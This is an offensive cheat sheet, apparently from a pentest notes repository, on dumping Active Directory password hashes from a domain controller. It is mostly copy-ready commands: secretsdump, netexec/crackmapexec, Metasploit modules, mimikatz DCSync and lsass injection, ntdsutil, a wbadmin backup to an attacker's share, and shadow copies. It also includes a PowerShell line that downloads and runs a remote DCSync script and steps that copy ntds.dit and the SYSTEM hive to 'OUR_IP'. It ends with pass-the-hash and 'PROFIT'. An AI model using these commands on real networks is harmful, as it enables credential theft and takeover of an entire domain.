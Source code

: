 # Dump NTDS from Domain Controller

## Tools: CrackMapExec/Netexec , secretsdump , ntdsutil , metasploit , certsync

    netexec smb DC_IP -u USER -p PASSWORD -d DOMAIN --ntds

    impacket-secretsdump 'DOMAIN/USER:PASSWORD'@IP -just-dc-ntlm

    windows/gather/credentials/domain_hashdump (Metasploit)

    certsync -u USER -p PASSWORD -d DOMAIN -dc-ip DC_IP -ns NAMESERVER_IP

    use auxiliary/admin/smb/psexec_ntdsgrab (Metasploit)

### Invoke-DCSync

##### Load into memory

    IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-DCSync.ps1")

##### Execute

    Invoke-DCSync -dcfqdn DC01.security.local -username administrator

### Mimikatz

##### Dump hashes for a specified users

    Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /user:moe"'

##### Dump hashes for all users

    Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /all"'

##### Dump hashes by injecting into the lsass process on the Domain Controller

    Invoke-Mimikatz -command '"lsadump::lsa /inject"'

### NTDSUtil

 - ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q (On the DC)

 - impacket-secretsdump -ntds NTDS_FILE.dit -system SYSTEM_FILE -hashes LMHASH:NTHASH LOCAL -outputfile ntlm-extract

### With these techniques you can move everywhere within the entire domain, as well as possibly compromise the Enterprise Admin (in this case it's game over)

# DUMP DOMAIN CONTROLLER HASHES LOCALLY WITH NTDSUTIL

## required files: 

### 1) C:\windows\NTDS\ntds.dit

### 2) C:\windows\system32\config\SYSTEM

### 3) C:\windows\system32\config\SECURITY

## Locating the ntds custom location: reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"

#### 1) 

    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#### 2) Transfer them to attacking machine

#### 3) 

    python3 Impacket-Secretsdump.py -security /path/to/SECURITY -system /path/to/SYSTEM -ntds path/to/ntds.dit local

# DUMP DOMAIN CONTROLLER HASHES WITH WBADMIN

#### 1) Create an new user that maches the "force user" parameter in the /etc/samba/smb.conf file:

#### 

    adduser smbuser

#### 

    smbpasswd -a smbuser

#### 

    sudo service smbd restart 

#### 2) Mount the share

    net use k: \\OUR_IP\SHARE /user:smbuser smbpass 

#### 3) Backup NTDS folder

    echo "Y" | wbadmin start backup -backuptarget:\\OUR_IP\SHARE -include:c:\windows\ntds 

#### 4) Retrieve the version of the backup

    sbadmin get versions 

#### 5) Restore the NTDS file, specifying the backup version

    echo "Y" | wbadmin start recovery -version:10/01/2020-14:23 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl 

#### 6) Export the system hive

    reg save HKLM\SYSTEM C:\system.hive 

#### 7) Transfer the ntds.dit file to our share

    cp ntds.dit \\OUR_IP\SHARE\NTDS.dit

#### 8) Transfer the system hive to our share

    cp system.hive \\OUR_IP\\SHARE\system.hive

#### 9) Dump hashes from NTDS

    impacket-secretsdump -ntds NTDS.dit -system system.hive LOCAL

#### 10) Do a Pass-the-Hash attack with wmiexec/smbexec/psexec or evil-winrm 

#### 11) PROFIT

# CRACKMAPEXEC

#### 1) 

    crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds

#### 2) 

    crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi

#### 3) 

    crackmapexec smb 10.10.0.202 -u username -p password --ntds vss

# VOLUME SHADOW COPY (VSS)

#### 1) 

    vssadmin create shadow /for=C:

#### 2) 

    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy

#### 3) 

    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy

# NTDS Reversible Encryption

### UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED (0x00000080), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

### The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin. This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

#### 1) List users with "Store passwords using reversible encryption" enabled

    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

### The password retrieval is already handled by SecureAuthCorp/secretsdump.py and mimikatz, it will be displayed as CLEARTEXT.

